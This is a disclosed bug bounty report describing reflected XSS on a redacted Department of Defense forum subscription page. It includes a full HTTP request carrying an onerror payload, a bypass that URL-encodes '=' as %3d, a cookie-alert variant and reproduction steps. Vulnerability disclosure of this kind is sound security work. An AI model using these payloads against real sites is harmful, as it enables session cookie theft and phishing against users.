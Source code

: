 # Reflected XSS via `████████` parameter

## Report Details
- **Report ID**: 1536215
- **URL**: https://hackerone.com/reports/1536215
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-09T16:35:25.503Z
- **Disclosed**: 2022-06-27T19:23:58.514Z

## Reporter
- **Username**: mdakh404
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello everyone,

I came across a page that allows users to subscribe to certain forum posts at `https://███` I noticed that the `████` parameter is reflected in the Page without filtering dangerous characters such as `< > ` except the = character which is filtered by default, but this can be circumvented by encoding it `=   ====>  %3d `, however the precedent page is vulnerable to Reflected XSS:

```
POST /██████_█████████=1&█████████=test HTTP/1.1
Host: ███
Cookie: █████
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: https://███████
Authorization: Basic ....
Referer: https://███████
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

__Click=0&activeFlag=Y&%25%25Surrogate_██████=1&██████████=<img src%3dx onerror%3dalert(document.domain)>
```

The above HTTP request leads to an alert pop-up confirming the XSS issue:

█████████

Also the cookies aren't protected by using `HttpOnly` security flag, so cookies can be grabbed using a simple payload such as `<img src=%3d onerror%3dalert(document.cookie)`:

████

## Impact

Cookies theft, Open Redirect, phishing via arbitrary iframes etc..

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Go to https://██████ (You must be authenticated).
2. Click on `Submit`, then Intercept the request with Burp Suite, change the `█████` parameter's value to `<img src%3dx onerror%3dalert(document.cookie>`
3. You'll see an alert pop-up showing your logged-in cookies.

## Suggested Mitigation/Remediation Actions
sanitizing dangerous characters by returning their equivalent HTML entities (see htmlspecialchars() function in PHP).



## Attachments
No attachments
